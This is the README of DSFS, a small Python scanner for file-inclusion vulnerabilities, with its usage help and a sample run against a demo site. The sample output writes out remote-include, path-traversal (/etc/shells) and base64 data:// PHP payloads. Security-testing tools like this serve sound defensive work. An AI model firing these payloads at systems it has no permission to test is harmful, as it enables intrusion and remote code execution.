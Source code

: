 Damn Small FI Scanner
=========

**Damn Small FI Scanner** (DSFS) is a fully functional [File inclusion](https://en.wikipedia.org/wiki/File_inclusion_vulnerability) vulnerability scanner (supporting GET and POST parameters) written in under 100 lines of code.

![Vulnerable](https://i.imgur.com/pgYS6cW.png)

As of optional settings it supports HTTP proxy together with HTTP header values `User-Agent`, `Referer` and `Cookie`.

Sample runs
----

```
$ python dsfs.py -h
Damn Small FI Scanner (DSFS) < 100 LoC (Lines of Code) #v0.1b
 by: Miroslav Stampar (@stamparm)

Usage: dsfs.py [options]

Options:
  --version          show program's version number and exit
  -h, --help         show this help message and exit
  -u URL, --url=URL  Target URL (e.g. "http://www.target.com/page.php?id=1")
  --data=DATA        POST data (e.g. "query=test")
  --cookie=COOKIE    HTTP Cookie header value
  --user-agent=UA    HTTP User-Agent header value
  --random-agent     Use randomly selected HTTP User-Agent header value
  --referer=REFERER  HTTP Referer header value
  --proxy=PROXY      HTTP proxy address (e.g. "http://127.0.0.1:8080")
```

```
$ python dsfs.py -u "http://fidemo.cu.cc/fi.php?f=README.txt"
Damn Small FI Scanner (DSFS) < 100 LoC (Lines of Code) #v0.1b
 by: Miroslav Stampar (@stamparm)

* scanning GET parameter 'f'
 (i) GET parameter 'f' appears to be (R)FI vulnerable (e.g.: 'http://fidemo.cu.c
c/fi.php?f=https%3A%2F%2Fraw.githubusercontent.com%2Fstamparm%2FDSFS%2Fmaster%2F
files%2Fconfig.php')
  (!) content seems to be dynamically evaluated
 (i) GET parameter 'f' appears to be (L)FI vulnerable (e.g.: 'http://fidemo.cu.c
c/fi.php?f=..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fshells')
 (i) GET parameter 'f' appears to be (S)FI vulnerable (e.g.: 'http://fidemo.cu.c
c/fi.php?f=data%3A%2F%2Ftext%2Fplain%3Bbase64%2CPD9waHAgZWNobyBiYXNlNjRfZGVjb2Rl
KCdUR1ZuWVd3Z1pHbHpZMnhoYVcxbGNqbz0nKTs%2FPg%3D%3D')
  (!) content seems to be dynamically evaluated

scan results: possible vulnerabilities found
```

Requirements
----
Python v2.6 or v2.7 is required for running this program
